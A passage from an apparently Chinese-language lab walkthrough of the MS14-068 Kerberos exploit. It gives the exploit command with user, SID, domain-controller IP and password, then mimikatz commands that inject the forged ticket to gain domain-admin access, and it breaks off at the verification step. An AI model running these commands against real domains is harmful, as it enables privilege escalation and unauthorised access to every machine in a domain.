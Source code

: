 ```
MS14-068.exe -u douser@DEMO.com -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130 -p Dotest123 // ms14-068.exe -u 域成员名@域名.com -s 域成员sid -d 域控制器ip地址 -p 域成员密码
```

![img](assets/1695035082991-e52b35fd-0180-46a8-82a8-0e2e5c5c9cff.png)
如图成功生成票据文件TGT_douser@DEMO.com.ccache

------

四、**导入票据**

利用mimikatz注入票据，将票据伪造到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器

```
kerberos::purge //清空当前机器中所有凭证 kerberos::list  //查看当前机器凭证 kerberos::ptc TGT_douser@DEMO.com.ccache //将票据注入到内存中
```

![img](assets/1695035083324-bf72bdf0-1fc9-4d12-b378-5c8b093d828f.png)
查看是否注入成功：
